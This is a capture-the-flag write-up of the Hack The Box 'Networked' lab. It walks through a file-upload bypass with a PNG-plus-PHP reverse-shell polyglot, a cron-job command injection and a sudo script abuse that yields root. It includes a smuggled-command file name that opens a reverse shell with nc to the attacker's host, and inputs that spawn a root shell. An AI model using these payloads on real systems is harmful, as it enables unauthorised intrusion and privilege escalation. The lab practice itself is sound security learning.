

---
tags:
  - command_injection
  - file_upload
group: Linux
---


- Machine : https://app.hackthebox.com/machines/networked
- Reference : https://0xdf.gitlab.io/2019/11/16/htb-networked.html
- Solved : 2025.3.10. (Mon) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**:
        - Found open ports: **22 (SSH), 80 (HTTP), 443 (HTTPS - Closed)**
    - **Web Enumeration**:
        - Discovered directories: `/uploads` (empty), `/backup` (contains `backup.tar`)
        - Extracted web files (`index.php`, `lib.php`, `photos.php`, `upload.php`) from `backup.tar`
        
2. **Service Exploitation**
    - **File Upload Bypass**:
        - Filters in `upload.php` and `lib.php`:
            - MIME type must be `image/*`
            - Filename must end with `.jpg/.png/.gif/.jpeg`
            - Upload source IP must be valid
        - **Bypass Strategy**:
            - Crafted a polyglot file: **PNG magic bytes + PHP reverse shell**
            - Named as `cmd.php.png` and uploaded successfully
        - **Shell Access**:
            - Accessed uploaded file via `/photos.php`, established **reverse shell as `apache`**
            
3. **Privilege Escalation to `guly`**
    - **Cronjob Enumeration**:
        - `check_attack.php` runs every 3 minutes via cron (`crontab.guly`)
        - Filename in `/uploads` is used in `exec()` → **Command Injection possible**
    - **Command Injection Exploitation**:
        - Created file named: `a; nc -c bash 10.10.14.7 9001; b`
        - Triggered cronjob → **Reverse shell as `guly`**
        
4. **Privilege Escalation to `root`**
    - **Sudo Enumeration**:
        - `guly` can run `/usr/local/sbin/changename.sh` as **root (NOPASSWD)**
    - **Command Injection via Input Fields**:
        - Script uses `echo $var=$x` → space-separated inputs executed as separate commands
        - Supplied inputs like `a bash`, `b bash`, etc.
        - Successfully executed **`bash` as root**, obtaining **root shell**

### Key Techniques:

- **Enumeration**: Nmap, Gobuster, manual PHP code analysis.
- **File Upload Bypass**: Polyglot payloads, PHP reverse shell inside image.
- **Command Injection**: Filename-based injection via cronjob, input injection in Bash script.
- **Privilege Escalation**: Abusing weakly validated `sudo` script with command injection.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/networked]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.146
Performing quick port scan on 10.10.10.146...
Found open ports: 22,80,443
Performing detailed scan on 10.10.10.146...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 05:12 MDT
Nmap scan report for 10.10.10.146
Host is up (0.13s latency).

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.98 seconds
```

### http(80)


```bash
┌──(kali㉿kali)-[~/htb/networked]
└─$ gobuster dir -u http://10.10.10.146 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.146
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/]
```

`/uploads` is empty, while `/backup` has a file `backup.tar`.
Let's download it.




# Shell as `apache`

### Analyze PHP code

```bash
┌──(kali㉿kali)-[~/htb/networked/backup]
└─$ ls
backup.tar  index.php  lib.php  photos.php  upload.php
```

There seems to be several pages.

Firstly, I visited `/upload.php` page.
It seems that it allows image file upload.
I uploaded an image file for test.


Then, I visited `/photos.php`. It seems that it's showing uploaded images.
Apart from pre-uploaded images, there's a file that I uploaded.
It seems that the server changes the file's name with IP address of the uploading host while keeping the extension.


I uploaded php file for test, but it returned an error.
It seems that there are some filters.


It seems that `upload.php` and `lib.php` files are related with the upload function.

Filter #1 : Check if the file's MIME type belongs to `image/`, and the size of the type is less than 60KB.

```php
// lib.php
function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}


// upload.php	
	if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }
```
  
Filter #2 : Check the last extension of the filename (ex. if test.php.png -> .png), if it's same with one of the extensions on the list ('.jpg', '.png', '.gif', '.jpeg').

```php
// upload.php
    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }
```

filter #3 : If the IP source of the upload request is from valid.

```php
// lib.php
function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename<br>\n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}
```

### Bypass filter and upload php file

Given all these filters, here's my strategy.
- Needs to included `.png` (Or other image extensions) at the end of the filename.
- Include PHP payload in it after the Magic bytes.
- Include `php` in the filename.

First, I copied the magic byte of PNG file and saved it as new file.

```bash
┌──(kali㉿kali)-[~/htb/networked/backup]
└─$ dd if=attack.png of=cmd.php.png bs=1 count=8
8+0 records in
8+0 records out
8 bytes copied, 7.2958e-05 s, 110 kB/s


┌──(kali㉿kali)-[~/htb/networked/backup]
└─$ xxd cmd.php.png 
00000000: 8950 4e47 0d0a 1a0a                      .PNG....
```

After the magic byte, I pasted php-reverse-shell code.
Then, I was able to successfully upload it.


Then I opened a listener and fetch the `/photos.php` page.
Soon the listener spawned a shell.

```bash
┌──(kali㉿kali)-[~/htb/networked]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.146] 56518
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 21:34:11 up  9:27,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
sh-4.2$ whoami
whoami
apache
```

I got a shell as `apache`.


# Shell as `guly`

### Enumeration

There's a single normal user `guly` checking `/home` directory.
On its directory, there are some interesting files.

```bash
sh-4.2$ ls -al
ls -al
total 28
drwxr-xr-x. 2 guly guly 4096 Sep  6  2022 .
drwxr-xr-x. 3 root root   18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root    9 Sep  7  2022 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly   18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly  193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly  231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 Mar  9 12:07 user.txt
```

Although I cannot read `user.txt`, there are `check_attack.php`, and `crontab.guly`.
Let's take a look at these files.

`crontab.guly` first.

```bash
sh-4.2$ cat crontab.guly
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
```

It seems that there's a scheduled PHP task running `check_attack.php` file every 3 minute.

Let's check `check_attack.php` then.

```php
sh-4.2$ cat check_attack.php
cat check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}
?>
```

Among the whole code, I focused on `exec()` function.
There are two `exec()` functions.
They are taking variables; `$logpath`, `$path`, `$value`.
Among the variables, `$value` is the only value that I can dynamically change while the others are static.
Since it's directly taking the filename as its input, I can try "Command Injection".

```php
$files = preg_grep('/^([^.])/', scandir($path));
```

I tested this on kali, and it seems that it's saving all existing files on a directory.

```php
┌──(kali㉿kali)-[~/htb/networked/backup]
└─$ php -a       
Interactive shell

php > $files = preg_grep('/^([^.])/', scandir('.'));
php > print_r($files);
Array
(
    [2] => backup.tar
    [3] => index.php
    [4] => lib.php
    [5] => photos.php
    [6] => upload.php
)
```

### Command Injection

Here's strategy;
- Create a file with name containing command line after `;`.
- Wait for the cron job to be run. (After setting up a listener)

If I put a file named `a; nc -c sh 10.10.14.7 9001; b`
For the execution option, I used `-c` instead of `-e` since we are putting this in filename.

```bash
sh-4.2$ nc -h
Ncat 7.50 ( https://nmap.org/ncat )
Usage: ncat [options] [hostname] [port]

Options taking a time assume seconds. Append 'ms' for milliseconds,
's' for seconds, 'm' for minutes, or 'h' for hours (e.g. 500ms).
...SNIP...
  -c, --sh-exec <command>    Executes the given command via /bin/sh
  -e, --exec <command>       Executes the given command
      --lua-exec <filename>  Executes the given Lua script
...SNIP...
```

I created a file with the prepared name.

```bash
sh-4.2$ touch 'a; nc -c bash 10.10.14.7 9001; b'


sh-4.2$ ls -al
ls -al
total 144
drwxrwxrwx. 2 root   root    4096 Mar 10 07:45 .
drwxr-xr-x. 4 root   root    4096 Jul  9  2019 ..
...SNIP...
-rw-rw-rw-  1 apache apache     0 Mar 10 07:45 a; nc -c bash 10.10.14.7 9001; b
-r--r--r--. 1 root   root       2 Oct 30  2018 index.html
```

Then soon the listener captures the request and spawns a shell.

```bash
┌──(kali㉿kali)-[~/htb/networked]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.146] 46968
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
whoami
guly
```


# Shell as `root`

### Enumeration

```bash
[guly@networked ~]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$ ls -al /usr/local/sbin/changename.sh
ls -al /usr/local/sbin/changename.sh
-rwxr-xr-x 1 root root 422 Jul  8  2019 /usr/local/sbin/changename.sh
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

Briefly analyzing the script,
- Regular expression checks if there's any non-numerical or alphabetical character included.
- Takes 4 inputs and saves them to each variable.
- Run `echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly` command.

### Command Injection

For test, I put random inputs to play it around;

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
a;whoami;
a;whoami;
wrong input, try again
interface NAME:
a;whoami
a;whoami
wrong input, try again
interface NAME:
a|whoami
a|whoami
wrong input, try again
interface NAME:
a&&whoami
a&&whoami
wrong input, try again
interface NAME:
a&whoami
a&whoami
wrong input, try again
```

As we analyzed, it's filtering all non-string characters (`;|&`).
Instead, I put characters with spaces.

```bash
interface NAME:
a b c
a b c
interface PROXY_METHOD:
a b c
a b c
interface BROWSER_ONLY:
a b c
a b c
interface BOOTPROTO:
a b c
a b c
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 7: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 7: b: command not found
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```

Surprisingly, it seems that the second part splitting by space is being run as a independent command.

I think it's because linux system takes all non-space words as independent commands.

```bash
┌──(kali㉿kali)-[~/htb/networked]
└─$ test=test whoami
kali


┌──(kali㉿kali)-[~/htb/networked]
└─$ ls -al whoami                   
ls: cannot access 'whoami': No such file or directory
```

As we tested, it only works when there's no space within a single command line.

While `echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly` this command has spaces in it, the important point is that `$x` makes whatever commands in `x` to be run.

If the input is just a string, that'll not be the problem.
But if I put space within the `x` taking input, I can make it run as multiple commands.

So, it seems that I can put whatever single-word commands to run with this script.
Let's test this with `whoami` command.

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
a whoami
a whoami
interface PROXY_METHOD:
b date
b date
interface BROWSER_ONLY:
c whoami
c whoami
interface BOOTPROTO:
d date
d date
root
Mon Mar 10 09:01:42 CET 2025
root
Mon Mar 10 09:01:42 CET 2025
root
Mon Mar 10 09:01:42 CET 2025
root
Mon Mar 10 09:01:42 CET 2025
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```

It works! I ran `whoami` and `date` commands as `root` user permission.
With this I can open a shell as `root` if I put `bash` command.

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
a bash
a bash
interface PROXY_METHOD:
b bash
b bash
interface BROWSER_ONLY:
c bash
c bash
interface BOOTPROTO:
d bash
d bash
[root@networked network-scripts]# whoami
whoami
root
[root@networked network-scripts]# id
id
uid=0(root) gid=0(root) groups=0(root)
```

I got a `root` shell!